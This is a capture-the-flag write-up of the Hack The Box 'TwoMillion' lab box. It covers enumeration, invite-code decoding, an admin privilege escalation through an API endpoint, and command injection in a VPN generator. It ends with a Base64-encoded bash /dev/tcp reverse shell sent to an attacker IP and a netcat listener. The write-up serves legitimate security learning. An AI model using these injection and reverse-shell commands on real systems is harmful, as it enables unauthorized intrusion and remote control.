





# TwoMillion
TwoMillion is an Easy difficulty Linux box that was released to celebrate reaching 2 million users on HackTheBox. The box features an old version of the HackTheBox platform that includes the old hackable invite code. After hacking the invite code an account can be created on the platform. The account can be used to enumerate various API endpoints, one of which can be used to elevate the user to an Administrator. With administrative access the user can perform a command injection in the admin VPN generation endpoint thus gaining a system shell. An .env file is found to contain database credentials and owed to password re-use the attackers can login as user admin on the box. The system kernel is found to be outdated and CVE-2023-0386 can be used to gain a root shell.

## Enumeration
### Port Scanning
There are two open ports. 22 (ssh) and 80 (http):
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/twomillion]
└─$ nmap $IP                         
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-20 07:44 EDT
Nmap scan report for 10.10.11.221
Host is up (0.042s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 15.02 seconds


┌──(kali㉿kali)-[~/Desktop/hackthebox/twomillion]
└─$ nmap -sC -sV -oN nmap/general $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-20 07:52 EDT
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.046s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Hack The Box :: Penetration Testing Labs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.42 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/twomillion]
└─$ nmap -p- -oN nmap/all_ports $IP  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-20 07:45 EDT
Nmap scan report for 10.10.11.221
Host is up (0.039s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 38.98 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/twomillion]
└─$ 
```

### HTTP
If we access the website provided by the server, we see an older site from HackTheBox:


Clicking through this site, brings us to the following prompt:


I wasn't playing on the platform back in the days, but to get access to HackTheBox you had to solve a hacking challange. It seems like we have to do it now as well to get access to the machine.

### Invite Code
Investigating the _invite_ page, shows up the following code:
```html
    <script src="/js/htb-frontend.min.js"></script>
    <script defer src="/js/inviteapi.min.js"></script>
    <script defer>
        $(document).ready(function() {
            $('#verifyForm').submit(function(e) {
                e.preventDefault();

                var code = $('#code').val();
                var formData = { "code": code };

                $.ajax({
                    type: "POST",
                    dataType: "json",
                    data: formData,
                    url: '/api/v1/invite/verify',
                    success: function(response) {
                        if (response[0] === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                            // Store the invite code in localStorage
                            localStorage.setItem('inviteCode', code);

                            window.location.href = '/register';
                        } else {
                            alert("Invalid invite code. Please try again.");
                        }
                    },
                    error: function(response) {
                        alert("An error occurred. Please try again.");
                    }
                });
            });
        });
    </script>
```
If we enter the correct code, it will be saved locally and the webserver redirects us to the _register_ page. But more important is a source of an invite API (seen at the top): `/js/invite/api.min.js`

#### Invite API
The JS file has the following content:
```js
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```

If we de-obfuscate this, for example with a web tool like _[this](https://beautifier.io/)_, we get these functions:
```js
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```

`/api/v1/invite/how/to/generate` sounds very promising. So let's run this POST request:
```
┌──(kali㉿kali)-[~]
└─$ curl --silent -X POST 2million.htb/api/v1/invite/how/to/generate | jq
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

And we found some data: `Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr`

The rest of the response says, that it is encrypted. Pretty sure with ROT13. Decrypting this gives the message: `In order to generate the invite code, make a POST request to /api/v1/invite/generate`

So let's start the next request:
```
┌──(kali㉿kali)-[~]
└─$ curl --silent -X POST 2million.htb/api/v1/invite/generate | jq    
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "NVVOSFEtRjhSMVctR0pDSlUtUElBQVk=",
    "format": "encoded"
  }
}
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ 
```

We found another encoded text: `TkJKR1otSVlQWTQtVUpCNlotSjZUSU4=`

This looks like Base encoding. Pretty common is Base64. Decrypting it gives the following message: `NBJGZ-IYPY4-UJB6Z-J6TIN`

So this is probably the invite key. If we enter this in the prompt, we will be redirected to the registration, as expected:


After the registration we can successfully log in to the platform:


## HTB
Navigate through the website doesn't show up that much information. Most of the links are disabled. The only interesting site is `http://2million.htb/home/access`:


Here we have two options to generate our OpenVPN configuration. Both directs two an API of the website:
* http://2million.htb/api/v1/user/vpn/generate
* http://2million.htb/api/v1/user/vpn/regenerate

So maybe we should investigate the API a bit more.

### API Enumeration
Since we can only access the OpenVPN API if we are logged in, we can use our session cookie from our login to enumerate the API. For enumeration you can use for example _feroxbuster_ with a corresponding wordlist:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/twomillion]
└─$ feroxbuster --url http://2million.htb/api --depth 2 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -H 'Cookie: PHPSESSID=8etalanght8q4gf6dtjvk4m31r' -m GET     

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://2million.htb/api
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🤯  Header                │ Cookie:  PHPSESSID=8etalanght8q4gf6dtjvk4m31r
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        7l       11w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        1l        5w       36c http://2million.htb/api
200      GET        1l       38w      800c http://2million.htb/api/v1
[####################] - 89s    30000/30000   0s      found:2       errors:1      
[####################] - 89s    30000/30000   336/s   http://2million.htb/api/                                                                                                                                                                                                                                        
┌──(kali㉿kali)-[~/Desktop/hackthebox/twomillion]
└─$ 
```
We find two interesting endpoints:
* http://2million.htb/api
* http://2million.htb/api/v1

Calling those endpoints gives us the following responses:
```
┌──(kali㉿kali)-[~]
└─$ curl --silent --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api | jq
{
  "/api/v1": "Version 1 of the API"
}
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ curl --silent --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api/v1 | jq
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
```
The first shows just some information belonging to the API version. But the second one shows more relevant API endpoints. User and admin endpoints to be exact.

#### User API
A few endpoints of the user section is already known. But we can now check if an user is authenticated:
```
┌──(kali㉿kali)-[~]
└─$ curl --silent --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api/v1/user/auth | jq
{
  "loggedin": true,
  "username": "testuser",
  "is_admin": 0
}
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
```
Pretty interesting the data field `is_admin`.

#### Admin API
Let's investigate the admin endpoints. The first just checks if we are an admin:
```
┌──(kali㉿kali)-[~]
└─$ curl --silent --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api/v1/admin/auth | jq         
{
  "message": false
}
```
Probably it just checks if the field `is_admin` is equal to 1.

The next endpoint seems to generate a VPN configuration. But we get an _Unauthorized_ error:
```
┌──(kali㉿kali)-[~]
└─$ curl --verbose -X POST --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api/v1/admin/vpn/generate
* processing: http://2million.htb/api/v1/admin/vpn/generate
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80
> POST /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.2.1
> Accept: */*
> Cookie: PHPSESSID=8etalanght8q4gf6dtjvk4m31r
> 
< HTTP/1.1 401 Unauthorized
< Server: nginx
< Date: Wed, 20 Sep 2023 14:12:34 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
* Connection #0 to host 2million.htb left intact
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
```

The last admin endpoint is for updating some settings. Here we get to following response:
```
┌──(kali㉿kali)-[~]
└─$ curl --silent -X PUT --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api/v1/admin/settings/update | jq
{
  "status": "danger",
  "message": "Invalid content type."
}
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
```
It says `Invalid content type`, but shows no _Unauthorized_ error. So let's try to set the _Content-Type_ header:
```
┌──(kali㉿kali)-[~]
└─$ curl --verbose --silent -X PUT --header 'Content-Type:application/json' --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api/v1/admin/settings/update | jq
* processing: http://2million.htb/api/v1/admin/settings/update
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.2.1
> Accept: */*
> Cookie: PHPSESSID=8etalanght8q4gf6dtjvk4m31r
> Content-Type:application/json
> 
< HTTP/1.1 200 OK
< Server: nginx
< Date: Wed, 20 Sep 2023 14:13:04 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
{ [67 bytes data]
* Connection #0 to host 2million.htb left intact
{
  "status": "danger",
  "message": "Missing parameter: email"
}
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
```

Now we got a message for a missing parameter. If we set this parameter we get a message about the missing next parameter:
```
┌──(kali㉿kali)-[~]
└─$ curl --silent -X PUT --header 'Content-Type:application/json' --data '{"email": "test@tester.de"}' --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api/v1/admin/settings/update | jq 
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
```

And after setting this parameter as well, we got a promising response:
```
┌──(kali㉿kali)-[~]
└─$ curl --silent -X PUT --header 'Content-Type:application/json' --data '{"email": "test@tester.de","is_admin": 1}' --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api/v1/admin/settings/update | jq
{
  "id": 15,
  "username": "testuser",
  "is_admin": 1
}
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
```

Seems like we were able to set the admin rights for our user. With the other endpoints, we can verify this:
```
┌──(kali㉿kali)-[~]
└─$ curl --silent --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api/v1/user/auth | jq
{
  "loggedin": true,
  "username": "testuser",
  "is_admin": 1
}
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ curl --silent --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api/v1/admin/auth | jq         
{
  "message": true
}
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
```

Let's try if we are still _Unauthorized_ if we try to generate the OpenVPN config:
```
┌──(kali㉿kali)-[~]
└─$ curl --verbose --silent -X POST --header 'Content-Type:application/json' --data '{"username":"testuser"}' --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api/v1/admin/vpn/generate > testuser.openvpn
* processing: http://2million.htb/api/v1/admin/vpn/generate
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80
> POST /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.2.1
> Accept: */*
> Cookie: PHPSESSID=8etalanght8q4gf6dtjvk4m31r
> Content-Type:application/json
> Content-Length: 23
> 
} [23 bytes data]
< HTTP/1.1 200 OK
< Server: nginx
< Date: Wed, 20 Sep 2023 14:42:32 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
{ [5111 bytes data]
* Connection #0 to host 2million.htb left intact
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
```
Works now and gives the same output as over the website.

At this point I stumbled a bit around. Until I thought about on how such a config is probably generated. There is probably no PHP integration for the generation. So maybe it is just calling bash commands. And this brought me to the assumption, that there could be a command injection vulnerability.

So let's try to inject a command:
```
┌──(kali㉿kali)-[~]
└─$ curl --silent -X POST --header 'Content-Type:application/json' --data '{"username":";ls;"}' --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api/v1/admin/vpn/generate
Database.php
Router.php
VPN
assets
controllers
css
fonts
images
index.php
js
views
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
```
Seems like a hit.

## Reverse Shell
We can now try to open a reverse shell. If we run the request command through the CLI, we have to Base64 encode our command to bypass special characters. So for `bash -i >& /dev/tcp/10.10.16.81/8081 0>&1;` we use `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44MS84MDgxIDA+JjE7 | base64 -d | bash`:
```
┌──(kali㉿kali)-[~]
└─$ curl --silent -X POST --header 'Content-Type:application/json' --data '{"username":";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44MS84MDgxIDA+JjE7 | base64 -d | bash ;"}' --cookie 'PHPSESSID=8etalanght8q4gf6dtjvk4m31r' http://2million.htb/api/v1/admin/vpn/generate


```
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/twomillion]
└─$ nc -lnvp 8081
Listening on 0.0.0.0 8081
Connection received on 10.10.11.221 43020
bash: cannot set terminal process group (1196): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ 
```

Stabilizing the reverse shell:
```
www-data@2million:~/html$ python --version
python --version
Command 'python' not found, did you mean:
  command 'python3' from deb python3
  command 'python' from deb python-is-python3
www-data@2million:~/html$ python3 --version
python3 --version
Python 3.10.6
www-data@2million:~/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@2million:~/html$ ^Z    
zsh: suspended  nc -lnvp 8081
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/twomillion]
└─$ stty raw -echo; fg                                                                                                                           148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 8081

www-data@2million:~/html$ 
www-data@2million:~/html$ ls
ls           lsblk        lsinitramfs  lslogins     lsns         lspgpot
lsattr       lscpu        lsipc        lsmem        lsof         lsusb
lsb_release  lshw         lslocks      lsmod        lspci        
